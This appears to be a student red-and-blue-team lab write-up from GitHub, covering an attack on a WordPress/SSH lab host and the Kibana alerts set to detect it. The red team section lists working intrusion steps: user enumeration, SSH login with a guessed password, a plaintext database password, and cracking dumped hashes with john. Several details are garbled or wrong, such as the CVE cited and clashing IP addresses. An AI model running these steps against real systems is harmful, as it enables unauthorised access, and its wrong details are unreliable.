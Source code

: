 # Cybersecurity Red &amp; Blue Teaming Project

## Red Team: Summary of Operations
### Table of Contents ##

*Exposed Services*

*Critical Vulnerabilities*

*Exploitation*

*Exposed Services*

**Nmap scan results for each machine reveal the below services and OS details:**
  __nmap -A 192.168.1.110 or nmap -sV 192.168.1.110__
  ![Nmap Scan Output](https://github.com/abge0386/Final-Project/blob/main/Screen%20Shots/Screen%20Shot%202022-03-14%20at%208.17.28%20PM.png)
  ![Nmap Scan Output 2](https://github.com/abge0386/Final-Project/blob/main/Screen%20Shots/Screen%20Shot%202022-03-14%20at%208.19.16%20PM.png)


This scan identifies the services below as potential points of entry:
Target 1

**List of Exposed Services: Upon doing an nmap scan of the network, the following exposed services were revealed**

22/TCP SSH -> OpenSSH

80/TCP HTTP -> Apache

111/TCP RPCBIND -> 2-4 RPC #100000

139/TCP Netbios-SSN -> Samba smbd 3.x - 4.x

445/TCP Netbios-SSN -> Samba smbd 3.x - 4.x

Other Exposed Info: MAC Address: 00:15:5D:00:04:10 (Microsoft)


**List of Critical Vulnerabilities**

Weak/Improper Authentication Restrictions (CWE-307)

Weak MD5 Hashing for Wordpress (CVE-2012-6706)

Improper Privilege Managements (CWE-269)

**Exploitation**

Target 1: 

The Red Team was able to penetrate Target 1 and retrieve the following confidential data.

flag1 hash: b9bbcb33e11b80be759c4e844862482d

The commands used were:

wp-scan --url http://192.168.1.110/wordpress --enumerate u

ssh michael@192.168.1.110 -p22

Guessed password to be "michael"

grep -rl 'flag1*'

located in /var/www/html/service.html


![Flag 1 located on page source](https://github.com/abge0386/Final-Project/blob/main/Screen%20Shots/Screen%20Shot%202022-03-14%20at%209.02.16%20PM.png)


Exploit Used:

![Wordpress Enumeration](https://github.com/abge0386/Final-Project/blob/main/Screen%20Shots/Wordpress%20Enumeration.png) 

![Wordpress Enumeration Users Identified](https://github.com/abge0386/Final-Project/blob/main/Screen%20Shots/Users%20ID'd.png)


flag2 hash: fc3fd58dcdad9ab23faca6e9a36e581c

The commands used were:
(while in Michael's session via ssh)

cd /var

cd /wwww

ls flag2.txt

cat txt file

![Flag 2](https://github.com/abge0386/Final-Project/blob/main/Screen%20Shots/Flag%202.png)

flag3 hash: afc01ab56b50591e7dccf93122770cd2

The commands used were:
(while in Michael's session via ssh)
cd /var/www/html/wordpress

login to Wordpress databse using "mysql -h localhost root -p wordpress"

password is R@venSecurity

once in DB, "SHOW TABLES;"

SELECT * FROM wp_posts;

![DB login info](https://github.com/abge0386/Final-Project/blob/main/Screen%20Shots/SQL%20DB%20Config.png)

![Password for database](https://github.com/abge0386/Final-Project/blob/main/Screen%20Shots/SQL%20DB%20Login%20info.png)


flag4 hash: 715dea6c055b9fe3337544932f2941ce3

The commands used were:
(while logged in the database)

mysql> select * from wp_users;

select user_login, user_pass, from wp_users;

copy and paste values into attacker machine and create file

using newly created wordlist, use command: john --wordlist=/usr/share/wordlists/rockyou.txt hashedusers.txt

this out puts user Steven's password

login as steven > ssh steven@192.168.1.110 -p 22

sudo -l

cd /

find -name 'flag*.txt'





# Blue Team: Summary of Operations

## Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic & Behavior
- Suggestions for Going Further

### Network Topology
The following machines were identified on the network:
- Kali Machine/Attacking Machine
  - **Operating System**: Linux
  - **Purpose**: Attacker
  - **IP Address**: 192.168.1.90
- Target/Victim:
  - **Operating System**: Linux
  - **Purpose**: Target Machine
  - **IP Address**: 192.168.1.100

- ELK:
  - **Operating System**: Linux
  - **Purpose**: Logs events
  - **IP Address**: 192.168.1.110

### Description of Targets
The target of this attack was: *`Target 1` 192.168.1.110*

Target 1 is an Apache web server and has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers. As such, the following alerts have been implemented:

### Monitoring the Targets

Traffic to these services should be carefully monitored. To this end, we have implemented the alerts below:
#### Excessive HTTP Errors is implemented as follows:
  - **Metric**: Packetbeat
  - **Threshold**: 400 Response Status Codes
  - **Vulnerability Mitigated**: Brute Force Attacks
  - **Reliability**: This should not generate too many false positives, as the threshold is set accurately.

#### HTTP Request Size Monitor is implemented as follows:
  - **Metric**: Packetbeat
  - **Threshold**: 3500 bytes
  - **Vulnerability Mitigated**: 
  - **Reliability**: This is quite reliable, as the threshold has been set accurately.

#### CPU Usage Monitor is implemented as follows:
  - **Metric**: Metricbeat
  - **Threshold**: .5
  - **Vulnerability Mitigated**: Malware, cryptomining 
  - **Reliability**: This is quite reliable, as the CPU usage should has been established.
### Suggestions for Going Further (Optional)
_TODO_: 
- Each alert above pertains to a specific vulnerability/exploit. Recall that alerts only detect malicious behavior, but do not stop it. For each vulnerability/exploit identified by the alerts above, suggest a patch. E.g., implementing a blocklist is an effective tactic against brute-force attacks. It is not necessary to explain _how_ to implement each patch.
